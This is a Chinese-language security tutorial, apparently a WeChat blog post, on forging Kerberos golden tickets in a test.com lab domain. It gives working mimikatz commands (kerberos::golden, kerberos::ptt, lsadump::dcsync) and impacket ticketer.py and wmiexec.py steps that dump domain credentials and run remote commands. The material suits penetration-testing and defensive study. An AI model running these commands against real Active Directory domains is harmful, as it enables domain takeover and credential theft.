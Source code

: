 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/6CVqpq-PAFLCYWOT2McT0g)

**原理**  

黄金票据的原理就是用 krbtgt 的 hash 来伪造 TGT 的内容。更改里面的 client 参数与 session key 等。让 TGS 以为我就是那个我所声称的人，当然我一般会声称自己是 administrator。第四步主要是来验证客户端的身份。

  
所谓的黄金票据其实就是 kerberos 认证的第二个阶段中的 tgs 的 ticket 也就是 TGT。这个 ticket 相当于对请求端的一个身份认证的凭据，如果可以伪造这个 ticket，那么就可以伪造任意身份，而黄金票据就是一个实现方式。

  
kerberos 协议原理请参考: NTML 认证与 kerberos 认证与 PAC 相关知识。

**前置条件与操作步骤**
=============

**前置条件**
--------

1.krbtgt 的 hash  
2\. 本地管理员权限  
3\. 域的 sid（普通用户的 sid 除去最后三位就是域的 sid）  
4\. 域内任意用户的本地管理员权限

**操作步骤**
--------

### 清空已有票据

kerberos::purge

### 制作黄金票据

kerberos::golden/user:Administrator/domain:test.com/sid:S-1-5-21-4166986646-4168497534-2490551922 /krbtgt:308390d1ca7addf22c84ba9f1d26cbe4 /ticket:1.kirbi

### 加载黄金票据

kerberos::ptt 1.kirbi

### 检测成果

lsadump::dcsync /domain:test.com /user:krbtgt

**实现**
------

### **使用 mimikatz 实现**

mimikatz 下载地址：https://github.com/gentilkiwi/mimikatz/releases  
假设我们已经通过某种方式获得了域控的 krbtgt 的 hash 为 d8d2ad72a119a8d418703f7a16580af6。

#### 1\. 开启一个管理员权限的 cmd 窗口

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxqiaWR9uB55PomNMtC7h6h391ciakJl5V6thbtMAXAkHYicQWWIYefWQo61e17OgbQk74ayD5iaoOBxg/640?wx_fmt=png)

#### 2\. 使用 mimikatz

##### 第一步：提权 & 清空票据

klist purge #在 cmd 中执行  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxqiaWR9uB55PomNMtC7h6h3uDCGggmbUL4lptW6gibfhlIMfMVJ34ciaQEpFX5KXVmdlBnyxjcxx3PQ/640?wx_fmt=png)

privilege::Debug  
kerberos::purge  
kerberos::list  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxqiaWR9uB55PomNMtC7h6h3WGtNHAY5xSOGUsW93TlGH3bQqd76GWvX3YNhEFyvVUGBt5j5PqCSxA/640?wx_fmt=png)

##### 第二步：制作黄金票据

获得域 sid：S-1-5-21-3763276348-88739081-2848684050-1110  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxqiaWR9uB55PomNMtC7h6h3xGJgD2ia2uyiaicibsTChW5NgEicDOvicC4u8Kx1b5gibNDavXPVCeGjM4dtQ/640?wx_fmt=png)

  
执行命令：  
kerberos::golden /user:Administrator /domain:test.com /sid:S-1-5-21-3763276348-88739081-2848684050 /krbtgt:d8d2ad72a119a8d418703f7a16580af6 /ticket:1.kirbi  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxqiaWR9uB55PomNMtC7h6h3OYL1Jy4TbAPJdVztJVvzKiabjqagORjYWm90pds9x8jicRxASW3IqjqA/640?wx_fmt=png)

执行结束后，会在运行目录生成一个 1.kirbi 的文件。  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxqiaWR9uB55PomNMtC7h6h3vX5UlUARZnX862IGbpjjpVvia06icem3tucwxrB2ficVUlOY6ZIsu0micQ/640?wx_fmt=png)

##### 第三步：使用黄金票据

这时候我们先看看能不能使用 dcsync 命令，这个命令是只有域控权限才能使用的，作用是导出域内所有用户的账号密码。当然结果肯定是失败的：  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxqiaWR9uB55PomNMtC7h6h3xKzSdLmFVA3mUKEa9BkWLm5s5iaMPNj0y4Xk7sBR0ku2HicLiccxousnw/640?wx_fmt=png)

  
因为我们并没有域控的 “身份证” 也就是 tgt。

这时候我们将刚制作好的伪造的 tgt 导入系统并进行测试：  
kerberos::ptt 1.kirbi  
lsadump::dcsync /domain:test.com /user:krbtgt  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxqiaWR9uB55PomNMtC7h6h3LyxicWsxHSIWiauEob2dicdkKYpIPsSyT5ON2JS0zN3lhGUdwIMLTTqUA/640?wx_fmt=png)

#### 遇到的一些坑

做完票据后执行 lsadump::dcsync /domain:test.com /user:krbtgt 会报错。后来研究了很久才发现，只要稍等几分钟然后测试执行那个命令就会成功，或者退出 mimikatz 再进去就可以成功，原理我也不知道。

这种票据只会存在管理员权限的命令行窗口中，如果这时候换一个命令行窗口执行，就会发现没有这个凭证。  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxqiaWR9uB55PomNMtC7h6h3Nsib6XHpbDI2OV988E6X8CaVgpMZG0wfCI5ev9HtQnojnQa43NLxeYg/640?wx_fmt=png)

### **利用 impacket 实现**

原理跟利用 mimikatz 一样，只是利用的工具不一样而已。

#### 实现

##### 第一步：打开管理员权限的命令行窗口并清空票据

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxqiaWR9uB55PomNMtC7h6h3q7G71ic8LG6oQmGY6DINBJDTonh0RkhuecgLwib8EnhIUT1g3IXULExA/640?wx_fmt=png)

##### 第二步：制作 ccache 文件

python ticketer.py -nthash d8d2ad72a119a8d418703f7a16580af6 -domain-sid S-1-5-21-3763276348-88739081-2848684050 -domain test.com administrator

##### 第三步：更改环境变量

set KRB5CCNAME=C:\\Users\\zhangsan\\Desktop\\impacket-examples-windows-master\\administrator.ccache

##### 第四步：验证成果

python wmiexec.py test.com/administrator@yukong -k -no-pass  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxqiaWR9uB55PomNMtC7h6h3iaKYeZqkwfcGwo0BzrUhk0OOia6jEyew5lBusmv4Pe7m69F0I6RSTapw/640?wx_fmt=png)

### **总结**

利用 impacket 来进行票据的制作有一定的局限性，制作完票据后在 klist 命令下是看不到缓存的。也没办法使用 net use \\\\ip\\admin$ 来建立管道连接。但可以使用其自带的工具在在一定的命令格式下进行远控指定主机。命令格式为：

xxxx.py domain/username@hostname -k -no-pass

这里的 domain 必须跟 systeminfo 中的 domain 的值一样。  
hostname 可以通过 net view 命令，或者 nbtstat -A ip, 或者 ping -a ip 来确定，推荐 ping -a 命令。  

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxqiaWR9uB55PomNMtC7h6h3H0YBibiagBzp87ibWH7VtySW8Naa6M0aNWsB1yfzWPtjxTt0VTXCmkbBg/640?wx_fmt=png)

因为 test 为域名，所以 yukong 就为主机名。

> FQDN 是什么？  
> FQDN 是完全合格域名 / 全程域名缩写，Fully Qualified Domain Name，即是域名，访问时将由 DNS 进行解析，得到 IP。FQDN = Hostname + DomainName，举个例子，一个公司申请了域名 comp.com，这时候有一台主机名为 web，则可以使用 web.comp.com 得到这个主机 IP。若还有两台提供邮件和 OA 服务的主机 cmail，oa，则这时候可以用以下 FQDN：  
> cmail.comp.com  
> oa.comp.com

impacket 的更多用法请看下面这篇文章：  
https://blog.csdn.net/qq\_41874930/article/details/108253531

作者：Shanfenglan7，一个刚步入安全行业的人，乐意分享技术，乐意接受批评，乐意交流。希望自己能把抽象的技术用尽量具体的语言讲出来，让每个人都能看懂，并觉得简单。最后希望大家可以关注我的博客：shanfenglan.blog.csdn.net

****扫描关注乌云安全****

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavz34wLFhdnrWgsQZPkEyKged4nfofK5RI5s6ibiaho43F432YZT9cU9e79aOCgoNStjmiaL7p29S5wdg/640?wx_fmt=jpeg)

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**
